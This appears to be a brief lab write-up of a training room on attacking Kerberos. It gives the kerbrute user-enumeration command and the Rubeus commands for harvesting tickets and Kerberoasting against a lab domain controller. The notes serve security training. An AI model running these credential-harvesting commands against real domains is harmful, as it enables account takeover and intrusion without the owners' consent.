



# Attacking Kerberos Room 


## Enumerating Users
- Installed `kerbrute` and downloaded a wordlist
- Enumerated users with `kerbrute` 

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```



## Harvesting Tickets w/ Rubeus 
- Established an SSH connection to the target 
- Used Rubeus to harvest for TGTs every 30 seconds 

```bash
Rubeus.exe harvest /interval:30
```


## Kerberoasting 
- using Rubeus 

```bash 
Rubeus.exe kerberoast
```

